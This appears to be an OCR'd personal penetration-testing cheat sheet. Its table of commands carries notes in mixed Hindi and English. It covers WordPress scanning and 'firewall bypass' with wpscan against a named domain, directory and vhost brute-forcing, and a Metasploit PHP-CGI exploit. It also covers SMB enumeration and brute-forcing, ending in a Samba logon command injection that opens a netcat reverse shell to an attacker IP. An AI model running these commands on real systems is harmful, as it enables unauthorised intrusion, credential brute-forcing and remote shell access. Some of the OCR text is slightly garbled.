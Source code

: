 | wpscan --url orane.com/ | Find out roobot.txt,username identify  only we use word press web site. |
| wpscan --url https://orane.com/ -e --random-user-agent | firewall by pass
    |
| gobuster vhost -u http://orane.com/ -w /usr/share/wordlists/amass/subdomains-top1mil-110000.txt --append-domain  | ek ip pe kitne domain run ho rhe hai. |
| gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,bak,conf,log | linux |
| gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt -x asp,aspx,bak,txt,config,log | windows |
| gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,asp,aspx,bak,conf,txt,html -t 50 | both |
| gobuster dir -u http://<target>:8080 -w … | another port run |
| nikto -h http”//target ip |  |
| whois google.com |  |
| subfinder -d  [orane.com](http://orane.com) > subdomain.txt |  |
| msfconsole |  |
| use auxiliary(scanner/http/http_version) | version findout  |
| search php 5.4.2  |  |
| use exploit/multi/http/php_cgi_arg_injection  | set rhost , |
| —————————————————————— | —————————————————————————————————- |
| 6] Smb(139.445) |  |
| `nmap -sn <subnet> -p139,445` |  |
| `nmap -sn <target ip> -p139,445`  |  |
| `nmap -sV -sC  <target ip> -p 139,445` |  |
| `nmap -sV -sC --script vuln <target_ip> -p 139,445` |  |
| cd   /usr/share/nmap/scripts | change dir nmap script |
| ls |grep smb | grep smb |
| nmap 192.168.0.107 --script=smb-enum-shares.nse -p 139 445 | **SMB network par shared folders list karta hai**. |
| nmap  <target> --script=smb-enum-users -p  139,445  | **SMB users ki list retrieve karta hai**. |
| **nmap --script smb-os-discovery.nse [Target IP Address]** | determine the OS, computer name, domain, workgroup, and current time over the SMB protocol  |
| nmap 192.168.0.107 --script=smb-brute.nse -p 139,445 | **SMB user accounts par brute-force attack perform karta hai**. |
| searchsploit samb  | grep 3.0.20 |  |
| enum4linux 192.168.0.107   | put target ip  |
| manual smb exploit  |  |
| smbget -R -U "username%password" smb://10.10.246.144/anonymous | Agar anonymous access allowed na ho aur username/password ki zaroorat ho |
| smbclient -N -L [//192.168.0.107](https://192.168.0.107/) | check Anonymous login  allow hai ya nahi. |
| smbmap -H 192.168.0.107 | check kerta hai read write  |
|  smbclient [//192.168.0.107/tmp](https://192.168.0.107/tmp) | anonymous share pe logi hona rhe taab. |
| smbclient [//192.168.0.106/tmp](https://192.168.0.106/tmp) --option='client min protocol=NT1' | agar NT status connection disconnect dikha to ye command ka use kerke under jayege. |
| logi hone ke baad  command use  | ls,get file.txt,logon "./=`nohup nc -e /bin/sh 192.168.0.103 4444`" |
| logon "./=`nohup nc -e /bin/sh 192.168.0.103 4444`" | ye reverce shell lene ke liye ip address attacker machine ka. |